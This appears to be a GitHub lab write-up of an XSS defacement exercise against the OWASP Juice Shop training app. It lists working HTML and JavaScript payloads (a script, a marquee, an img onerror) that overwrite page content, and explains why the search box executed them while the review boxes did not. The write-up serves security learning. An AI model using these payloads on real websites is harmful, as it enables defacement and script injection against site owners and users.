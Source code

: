 # Stored XSS for Website Defacement
 ## Objectives
> Use a stored XSS payload to visually deface part of the vulnerable site.
> This simulates an attacker injecting malicious HTML/JS to embarrass a brand or disrupt the UI.

I submitted this payload in Juice shop searchbox
```js
<h1 style='color:red; font-size:50px;'>Hacked by Cybernerrrrddd 💀</h1>
<script>
document.body.style.backgroundColor = 'black';
document.body.style.color = 'lime';
</script>
```
And it was executed to the screen. 
I tried the same payload in the review boxes under the products and
the payload got stored but wasnt rendered or executed by the browser or DOM

This was because:
- Review boxes may sanitize or filter inputs unless the stored content is rendered unsafely.
- But in search, the payload is reflected directly into the DOM (often unsanitized), which is why my XSS executes immediately.

My successful attack was due to search being vulnerable to DOM-based or reflected XSS, 
while reviews worked for stored XSS only if the app renders it directly without sanitizing or escaping it.

## some other payloads
```html
<marquee behavior="scroll" direction="left">You got hacked 😈</marquee>
```
```html
<img src=x onerror="document.body.innerHTML='<h1>Defaced!!</h1>'">
```
```js
<script>
document.title = 'Hacked 💀';
document.querySelector('h1').innerText = 'Juice Shop Compromised!';
</script>
```
